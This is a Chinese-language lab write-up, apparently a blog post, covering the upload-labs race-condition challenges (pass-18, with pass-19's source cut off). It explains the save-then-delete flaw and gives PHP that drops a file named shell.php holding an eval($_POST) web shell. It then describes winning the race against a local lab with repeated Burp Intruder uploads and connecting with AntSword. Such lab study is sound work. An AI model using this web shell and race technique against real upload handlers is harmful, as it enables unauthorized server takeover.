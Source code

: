 **rename():** 重命名文件或目录。如果成功则返回true，失败返回false。

**思路：** 代码是先将文件保存到文件夹后，再判断文件的后缀是否合法，不合法的删除。在多线程的情况下，可能会出现文件夹中的文件还没有处理完，我们就可以访问原文件，而绕过。

##### 条件竞争：

条件竞争漏洞是一种服务器端的漏洞，由于服务器端在处理不同用户的请求时是并发进行的，因此，如果并发处理不当或相关操作逻辑顺序设计的不合理时，将会导致此类问题的发生。

创建``18.php``文件：

```
<?php 
	$b = fopen("shell.php","w");
	fputs($b,'<?php phpinfo(); ?>');
?>
```

也可以：

```
<?php 
	$b = fopen("shell.php","w");
	fputs($b,'<?php @eval($_POST["hhh"]); ?>');
?>
```

之后用蚁剑连接，道理一样。

上传文件，并用burp抓包，跳转到intruder模块：

[![sCXe7q.md.png](https://s3.ax1x.com/2021/01/04/sCXe7q.md.png)](https://imgchr.com/i/sCXe7q)

到payloads模块：

[![sCX3jJ.png](https://s3.ax1x.com/2021/01/04/sCX3jJ.png)](https://imgchr.com/i/sCX3jJ)

开始爆破。

不断访问``http://127.0.0.1/upload-labs-master/upload/18.php``直至``shell.php``文件写入成功(这里就需要一直刷新，狂点)。

成功后可以去文件夹看看：

[![sCx6b9.png](https://s3.ax1x.com/2021/01/04/sCx6b9.png)](https://imgchr.com/i/sCx6b9)

发现创建成功。

+  访问：

[![sCX2UP.md.png](https://s3.ax1x.com/2021/01/04/sCX2UP.md.png)](https://imgchr.com/i/sCX2UP)

+ 蚁剑连接：

[![sCvQOJ.md.png](https://s3.ax1x.com/2021/01/04/sCvQOJ.md.png)](https://imgchr.com/i/sCvQOJ)

#### pass-19(条件竞争2)

```
//index.php
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload(UPLOAD_PATH);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
```